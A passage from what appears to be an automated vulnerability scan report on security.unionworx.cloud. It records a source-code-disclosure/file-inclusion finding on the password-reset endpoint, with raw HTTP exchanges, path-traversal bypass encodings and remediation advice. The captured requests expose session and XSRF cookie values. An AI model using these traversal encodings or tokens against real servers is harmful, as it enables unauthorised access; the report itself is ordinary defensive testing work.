XSRF-TOKEN=eyJpdiI6IjhoWjMxdUtaQkhOdStBUk1XNmtENWc9PSIsInZhbHVlIjoiSlFm<br>clpUaUlOT0krSGtKN2tOQ1M0N1ArM3JuVkhaZ3E2cjdtVW9FVXR4Ni9JV1ptNE41QmlMdnQ4ZVZRd215VXNUQ3hqdDZOazF2M<br>VJtd3E1M2dTZVlWWlF1eStETlNmWCtMUmZCU01DdVFjMy9OdDBVa2<br>hoNXMvaE9MKzBpcVkiLCJtYWMiOiJkNzNhZGYzNzA2ZGQ2MWNjOGNiZTNkYzZlOGM3MjkyMz<br>FkMWZmZTM4NjIxZTljZWUzOTgyOGVhYzUxMTI3NjZhIiwidGFnIjoiIn0%3D;<br> ibew_test_22_union_worx_session=eyJpdiI6ImQ0cy9Ic3hLd2VmL3RaK2ttemQzdlE9PSIsInZhbHVlIj<br>oiL1UxNENqc2NPMXlDUnoxL0pPY1IzdXN5R1JBNHp3RGJzRnpwNHdUNHpYM3FGWExjQzJ4YjhvajVldWNx<br>N2UwRlpXWk10alRQVnVnNUVTakw1NnFUcjd6UXlVdGRoUGZ0TFg3bUxoM2h6ZDk<br>yNFhiUGprTmFMTyt0TVpyVUJRcUkiLCJtYWMiOiIwZGM5NzAwYTAzMDUwNGRlYTBlMmIxMjk1NjA1NmM1NzYzZTg2NzI0<br>NTIzNjY3N<br>zc5MTgwYmExODg4ZTVjZWUwIiwidGFnIjoiIn0%3D; \_ga=GA1.2.1965857730.1709530183;<br> \_gid=GA1.2.1685667166.1709530183; \_ga_KD7G4FQ334=GS1.1.1709530457.1.1.1709530836.0.0.0; \_gat_gtag_UA_132022492_1=1<br>Upgrade-Insecure-Requests: 1<br>Sec-Fetch-Dest: document<br>Sec-Fetch-Mode: navigate<br>Sec-Fetch-Site: same-origin<br>Sec-Fetch-User: ?1<br><br><br>Response<br>HTTP/1.1 200<br>Content-Length: 0<br>Connection: close<br><br><br>\                                                                                                                                                                                                                                                                                                                                                                                                                                | Do not accept remote addresses as request parameters, and if you must, ensure that they are validated against an allow-list of expected values.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 6  | Source Code Disclosure - File Inclusion | [https://security.unionworx.cloud/password/email](https://security.unionworx.cloud/password/email)                                                                                   | password/email                                                                                                                                                                                                                                                                                                                                                                   | POST https://security.unionworx.cloud/password/email HTTP/1.1<br>host: security.unionworx.cloud<br>user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 OPR/102.0.0.0<br>pragma: no-cache<br>cache-control: no-cache<br>content-type: application/x-www-form-urlencoded<br>referer: password/email<br>content-length: 75<br>Cookie: XSRF-TOKEN=eyJpdiI6IkJ0c0ZEZVpqbFphcGVGL0tZSWRDbUE9PSIsInZhbHVlIjoiNm42TzkwV<br>TRJYjFMZ0F4NEwrTnZtcXBYT0RVcDRtT2dRb2RDTFU3QXE5eXJMY1M2Y2tMWFlXSmhnd3RUWXA1TGEraWI3dEZjTWFiQlBtbU9SRmEyYmYvcEFybXNi<br>TVlnOVBIV00vYlphTHo0YWxQUE1LZjJ1WkRZdUFwU3dyc1IiLCJtYWMiOiJlYm<br>M1NGI1NTM5YTA3Y2NhZTJkNzEyNGFkZjliYmQ2Y2IxOThkOTM3NjhlM2ZiMzE5Y2E3YjMwNTNmM2UxYTUzIiwidGFnIjoiIn0%3D;<br> ibew_test_22_union_worx_session=eyJpdiI6Im16c0w3Tn<br>BkdWRjUndsZmYvdVk0Snc9PSIsInZhbHVlIjoieFVRVmQzdWtpdnM0TWg2S2F1TkRma01QbTJQYVJoTm9lSFBUVWFqQ<br>2dLbm5wS2lhSVljSUlBL1Y5UUI5SlBGNjMyZEtnWTFEcndTOUtXeTVobnNYcnJTWGJFYmhQcW5<br>2N09hbitsbnJJbmFYOS8xZ1NOdkhlZkVkZGw1MEh1WnEiLCJ<br>tYWMiOiJjZDM2ZTJhZGZiNzA4ZTQ2OGIwZmNjNDQ0MDg1MmY0MTk2YTdmYjM1NTNmODdlOGRmMjUzZjEzZTM3MjY5MDk2IiwidGFnIjoiIn0%3D<br>                                                                                                                                                                                                                                                                                                                                                                                                                                     | HTTP/1.1 302 Found<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Cache-Control: no-cache, private<br>Date: Thu, 07 Mar 2024 17:14:16 GMT<br>Location: https://security.unionworx.cloud/password/email<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6IjVhdjhzaDZNM2g1eWhGbGY1b2FlcWc9PSIsInZhbHVlIjoiNmlDdWc<br>3UWJxbnAwQS9xUHQrYmIrS0lzdmNBbElmbUc5VDZMVjdMczJBbVNGcWpLUHRsSWFQdmViL2g2aUVzSVVjZ0E2SXdNTV<br>JlZWQzdDZ0ZkcyaDY3b1p5UGpTQjZzeDV0WDNPQnNkWTU0MnhxNStxM0lSK1<br>M2ZWduWkRYM3MiLCJtYWMiOiJkYThlNzdhNDcyM2RjYzZmY2IzNjgxZTkwMDM3N2UwNzA1OTlhNmYyNTljZWRiYzY3YWRiMzhhYjRhYjg0M2M4IiwidGFnIjoiIn0%3D; <br>expires=Thu, 07 Mar 2024 19:14:16 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie: ibew_test_22_union_worx_session=eyJpdiI6IjQ1SWRySjc0OVhiQ2d4azN5cTREeH<br>c9PSIsInZhbHVlIjoieGM0eVBXUVBBY1lTOXYrc2JMS2VhVmNpdlZFbHVSVnRuU09CU1Jl<br>K1JObFFqUUFydVNMS2ZyMXJ4RU1QZlAxcUVTcm8yQnhGUmQrNTEvc0hSTWdTNGsyelpLQW1rc<br>EFzUnJJU0JvWFlFLzRMUUJjTlV3Y1RVNjR3Y0lpY0RoNWYiLCJtYWMiOiI<br>zYzMyYjQ0MGVjOGQ1M2FkMjZhOTRjNTFjZjE1MjkxYjNlODg1MmVhMTQxODVhNzBhMGJiMWQzNmViOTI1MmFmIiwidGFnIjoiIn0%3D; <br>expires=Thu, 07 Mar 2024 19:14:16 GMT; Max-Age=7200; path=/; httponly; <br>samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 434<br>                 | The Path Traversal attack technique allows an attacker access to files, <br>directories, and commands that potentially reside outside the web document root directory. <br>An attacker may manipulate a URL in such a way that the web site will execute or reveal the contents of arbitrary files anywhere on the web server. Any device that exposes an HTTP-based interface is potentially vulnerable to Path Traversal.<br><br>Most web sites restrict user access to a specific portion of the file-system, <br>typically called the "web document root" or "CGI root" directory.<br> These directories contain the files intended for user access and the executable necessary to drive web application functionality. <br>To access files or execute commands anywhere on the file-system,<br> Path Traversal attacks will utilize the ability of special-characters sequences.<br><br>The most basic Path Traversal attack uses the "../" special-character sequence to alter the resource location requested in the URL. Although most popular web servers will prevent this technique from escaping the web document root, alternate encodings of the "../" sequence may help bypass the security filters. These method variations include valid and invalid Unicode-encoding ("..%u2216" or "..%c0%af") of the forward slash character, backslash characters ("..\\") on Windows-based servers, URL encoded characters "%2e%2e%2f"), <br>and double URL encoding ("..%255c") of the backslash character.<br><br>Even if the web server properly restricts Path Traversal attempts in the URL path, <br>a web application itself may still be vulnerable due to improper handling of user-supplied input. <br>This is a common problem of web applications that use template mechanisms or load static text from files. <br>In variations of the attack, the original URL parameter value is substituted with the file name of one of the web application's dynamic scripts. Consequently, the results can reveal source code because the file is interpreted as text instead of an executable script. <br>These techniques often employ additional special characters such as the dot (".") <br>to reveal the listing of the current working directory, or "%00" NULL characters in order to bypass rudimentary file extension checks. <br>The output for the source code filename [/general] differs sufficiently <br>from that of the random parameter [ygxprtzefhfiixvfnwsxezcaiqfvsxrmrtkhqz], at [14%], compared to a threshold of [75%] | Assume all input is malicious. <br>Use an "accept known good" input validation strategy, i.e., <br>use an allow list of acceptable inputs that strictly conform to specifications. <br>Reject any input that does not strictly conform to specifications, or transform it into something that does. <br>Do not rely exclusively on looking for malicious or malformed inputs (i.e., do not rely on a deny list).<br> However, deny lists can be useful for detecting potential attacks or determining which inputs are so malformed that they should be rejected outright.<br><br>When performing input validation, <br>consider all potentially relevant properties, including length, <br>type of input, the full range of acceptable values, missing or extra inputs, syntax, consistency across related fields, <br>and conformance to business rules. As an example of business rule logic, "boat" may be syntactically valid because it only contains alphanumeric characters, but it is not valid if you are expecting colors such as "red" or "blue."<br> |
